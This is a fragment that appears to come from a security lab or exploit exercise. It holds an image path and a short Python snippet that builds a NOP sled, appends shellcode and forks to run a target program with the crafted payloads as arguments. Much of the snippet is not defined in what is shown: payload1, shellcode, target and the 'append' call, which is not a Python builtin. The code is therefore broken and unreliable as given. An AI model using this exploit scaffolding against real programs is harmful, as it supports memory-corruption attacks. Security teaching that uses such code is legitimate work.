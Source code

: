 ```python
payload2 = "\x90"*50
payload2 = append(payload2, shellcode)

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload1, payload2))
else:
        os.waitpid(pid, 0)
```

-----